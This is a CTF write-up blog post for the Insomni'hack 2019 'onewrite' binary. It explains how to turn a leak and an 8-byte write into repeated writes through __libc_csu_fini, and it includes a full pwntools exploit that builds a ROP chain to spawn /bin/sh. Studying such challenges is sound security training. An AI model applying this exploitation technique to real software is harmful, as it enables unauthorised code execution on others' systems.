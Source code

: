 ```yaml
---
layout: post
title: ! "[Insomni'hack 2019] onewrite writeup"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - pwnable
  - MyriaBreak
---
```

### Description

> [File](../images/myria/onewrite-writeup/onewrite) is here
> difficulty: easy
>_  nc onewrite.teaser.insomnihack.ch 1337

<!--more-->
A program is a Simple.

```bash
All you need to pwn nowadays is a leak and a qword write they say...
What do you want to leak ?
1. stack
2. pie
 > 1
0x7fff979bf4a0
address : 140735736968352   
data : 12345678
 ```

we can leak a `stack` or `do_leak` function pointer for us once. Then, it will call `do_overwrite` which allows us to overwrite 8 byte to arbitrary address.

 ```bash
 [*] '/home/myria/CTF/Insomni_hack/onewrite/onewrite'
     Arch:     amd64-64-little
     RELRO:    Partial RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      PIE enabled

 and binary is "statically linked"
 ```

but, the binary is statically linked, we need leak `stack` and `pie` both of all.
The attack is summarized as follows.

 1. Leak `PIE` address
 2. Overwrite `pie_addr + 0x2a55a3` with `main` address
 3. Program end. And the `exit` will be called after `main` returns.
 (it call `__libc_csu_fini` function)
 4. `__libc_csu_fini` function call `QWORD [pie_addr + 0x2a55a3]`. so we again jump to `main` function.
 5. Leak `Stack` address
 6. Write a `ropchain` in the `bss`
 7. Jump `ropchain`
 8. Get Shell

The exit function is called after the main function ends. Then, the function `__libc_csu_fini` is called and you can return to main by using the `call QWORD PTR [rbp + rbx*8+0x0]` of `<__ libc_csu_fini+40>`.
![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_03.PNG)

![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_01.PNG)

 `6. Write a 'ropchain' in the 'bss'` is hard part. so i need to be able to write 8 bytes somewhere and `jump free` from the main function again.
You can adjust the `stack` by omitting the function's prologue or epilogue appropriately.
 manipulate the return address of the `main function` and manipulate the return address of the `do_leak function`. (`sub rsp, 0x18` ,` add rsp, 0x18` or `sub rsp, 0x8` ,` add rsp, 0x8`)
Then the `stack` is configured as shown below. Now we got one ``free write`` via two operations.

![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_02.PNG)

The rest is simple. configure ropchain and use `pop rsp; ret`

#### [Korean writeup](https://xerxes-break.tistory.com/401)

### The full exploit code

 ```python
 from pwn import *

#conn = remote("onewrite.teaser.insomnihack.ch", 1337)
conn = process("onewrite")

def leak(select):
	conn.recvuntil(" > ")
	conn.sendline(str(select))
	leak_addr = int(conn.recvline().strip(), 16)
	return leak_addr

def write(addr, data):
	conn.recvuntil("address : ")
	conn.send(str(addr))
	conn.recvuntil("data : ")
	conn.send(data)

## Stage 1
# do_leak func address leak
pie_addr = leak(2)
log.info("pie_address : " + hex(pie_addr))

target = pie_addr + 0x2a55a3 # rbp+rbx*8+0x0   //   call QWORD PTR [rbp+rbx*8+0x0]
main = pie_addr + 0xa3		# main function address
write(target, p64(main))

## Stage 2
# stack_address leak
stack_addr = leak(1)
target = stack_addr  + 0x28	# return address (main function)
log.info("stack_address : " + hex(stack_addr))
write(target, p64(main))


def write_arbitrary(addr, data):
	# stack_address += 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x28
	write(target, p64(main))

	# stack_address -= 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x18
	write(target, p64(main))

	# main_ret => main
	# free write! and return Main
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	log.info("writing")
	write(addr, data)	# free write

# rop_gadget
pie_base = pie_addr - 0x000008A15
pop_rdi = pie_base + 0x000858fb
pop_rsi = pie_base + 0x0008551a
pop_rdx = pie_base + 0x000484c5
pop_rax = pie_base + 0x0004654c
syscall = pie_base + 0x00088834

bss_address = pie_base + 0x2B38D0

log.info("pie_base : " + hex(pie_base))

# write "/bin/sh" to BSS
write_arbitrary(bss_address, "/bin/sh\x00")

idx = 2
def rop(data):
	global idx
	write_arbitrary(bss_address + idx*8, p64(data))
	idx+=1

# write rop_chain to BSS
rop(pop_rdi)
rop(bss_address)
rop(pop_rsi)
rop(0)
rop(pop_rdx)
rop(0)
rop(pop_rax)
rop(59)
rop(syscall)

def trigger_rop():
	stack_addr = leak(1)
	target = stack_addr  + 0x28
	log.info("stack_address : " + hex(stack_addr))
	write(target, p64(main))

	pop_rsp = pie_base + 0x00087c46
	rop_chain = bss_address + 0x10

	# jump ropchain
	write_arbitrary(stack_addr + 0x40, p64(pop_rsp))
	write_arbitrary(stack_addr + 0x48, p64(rop_chain))

trigger_rop()
leak(1)
write(1,"id\n")

conn.interactive()
 ```
